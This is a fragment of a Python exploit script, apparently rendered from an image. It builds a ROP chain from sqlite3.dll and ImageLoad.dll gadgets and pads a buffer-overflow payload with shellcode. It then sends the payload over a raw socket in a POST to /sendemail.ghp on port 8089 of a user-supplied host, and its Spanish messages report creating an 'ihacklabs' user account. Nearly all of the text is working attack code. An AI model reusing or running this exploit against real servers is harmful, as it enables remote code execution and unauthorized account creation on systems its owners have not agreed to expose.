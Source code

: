 ```python
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x61c066be,  # INC EDX # ADD CL,CL # RETN [sqlite3.dll]
        0x1001bd98,  # POP ECX # RETN [ImageLoad.dll]
        0x1004de84,  # &Writable location [ImageLoad.dll]
        0x61c373a4,  # POP EDI # RETN [sqlite3.dll]
        0x1001a858,  # RETN (ROP NOP) [ImageLoad.dll]
        0x10015442,  # POP EAX # RETN [ImageLoad.dll]
        0x90909090,  # nop
        0x100240c2,  # PUSHAD # RETN [ImageLoad.dll]
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

rop_chain = create_rop_chain()

payload = "A"*2278 + rop_chain + "\x90"*4 +  Shellcode4 + "B"*(1790-len(Shellcode4)-len(rop_chain)) + ret

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((sys.argv[1], 8089))
s.send("POST /sendemail.ghp HTTP/1.1\r\n\r\nEmail=" + payload + "&getPassword=Get+Password")
print "[+] Envio del exploit"
print "[+] Cargado Payload"
print "[+] Creado usuario ihacklabs con password" + " " +" Ihack12/"
s.close()
```

